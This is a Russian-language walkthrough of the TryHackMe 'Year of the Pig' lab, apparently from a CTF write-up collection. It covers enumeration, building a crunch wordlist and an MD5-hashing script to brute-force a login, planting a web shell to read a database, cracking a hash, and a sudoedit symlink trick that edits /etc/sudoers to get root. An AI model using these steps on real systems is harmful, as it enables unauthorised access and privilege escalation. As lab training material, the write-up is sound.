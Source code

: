 # Year of the Pig

:white_check_mark:  [**Crunch**](#crunch)

:white_check_mark: [**Sqlite3**](#sqlite3)

:white_check_mark: [**Sudoedit**](#sudoedit)

:white_check_mark: [**Sudo_version**](#sudo_version)

___

## Enumeration
Сканируем ip командой:
```
nmap -sV -sV pig.thm
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Marco's Blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Главная страница pig.thm

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/1.png)

Переберем директории с помощью gobuster:
```
gobuster dir -u http://pig.thm -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.txt,.html
```

```
/index.html           (Status: 200) [Size: 4801]
/login.php            (Status: 200) [Size: 2790]
/admin                (Status: 301) [Size: 302] [--> http://pig.thm/admin/]
/assets               (Status: 301) [Size: 303] [--> http://pig.thm/assets/]
/css                  (Status: 301) [Size: 300] [--> http://pig.thm/css/]   
/js                   (Status: 301) [Size: 299] [--> http://pig.thm/js/]    
/api                  (Status: 301) [Size: 300] [--> http://pig.thm/api/]
```

Перейдем на страницу **pig.thm/login.php**. Перед нами строка авторизации.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/2-1.png)

Введем случайные данные и перехватим запрос.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/2.png)

Во-первых, мы можем заметить, что наш пароль преобразуется в md5.
Во-вторых, мы не можем сбрутить пароли, т.к. всегда будем получать код ответа 200.

Но отправив запрос, на странице авторизации появляется подсказка.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/3.png)

Паролем является: памятное слово или же слово, которое легко запомнить + 2 цифры + 1 символ.

Покапавшись на странице, можно найти упоминание любимого самолета **marco - Savoia S21**.

<a name="crunch"></a>

## Crunch
Сгенерируем словарь для брута:
```
crunch 9 9 -t savoia%%^ > pass

9 9 - размер пароля от 9 до 9 символов, тоесть просто 9 символов
-t - пароль по образцу
% - любая цифра
^ - любой символ
```

Получив словарь, его нужно преобразовать в md5. Сделаем это при помощи питона.
```
import hashlib

file = open('path_to_file', 'r')
file_read = file.read()


words = list(file_read.split())

for word in words:
        hash = hashlib.md5(word.encode('utf-8')).hexdigest()
        print(hash)
```

```
python brute.py > pass_md5
```

Брутим с логином marco и словарем

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/4.png)

Находим пароль, преобразуем его обратно из md5 и логинимся.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/5.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/6.png)

Находим панель для выполнения команд. Перебрав разные варианты команд я решил, что это rabbit hole и решил попробовать эти данные для ssh и они подошли.
```
ssh marco@pig.thm
```

<a name="sqlite3"></a>

## Sqlite3
Подключивсяшь в машине и покопавшись в директории сайта, я нашел базу данных **admin.db**.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/7.png)

Увы, взаимодействие с базой доступно только от пользователя www-data, поэтому закинем shell в директорию **/var/www/html**.

Запускаем слушатель и открываем shell: **http://pig.thm/shell.php**.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/8.png)

Теперь, когда мы зашли под пользователем www-data, можем открыть базу данных.
```
sqlite3 admin.db
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/9.png)

Получаем пароли от юзеров. Сравнив пароль от marco с тем, который мы сбрутили, можем заметить, что они сходятся, значит пароль от curtis тоже в формате md5. Закинем его в [crackstation](https://crackstation.net/) и получим результат.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/10.png)

<a name="sudoedit"></a>
<a name="sudo_version"></a>

## Privilege escalation
Логинимся под curtis.

Просмотрим права: **sudo -l**.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/11.png)

Видим, что это предположительно может быть уязвимость связанная с wildcards. Проверим версию sudo:
```
sudo --version
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/12.png)

Создадим символическую ссылку:
```
ln -s /etc/sudoers /var/www/html/assets/img/config.php

Вместо */* нужно вставить 2 существующие директории
```

У нас есть права для использования sudoedit, поэтому воспользуемся этим.
```
sudoedit /var/www/html/*/*/config.php
```

В конфигурационном файле добавим права рута пользователю curtis.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/13.png)

Выходим из файла: **Esc -> :wq**.

Получаем рута: **sudo su**.
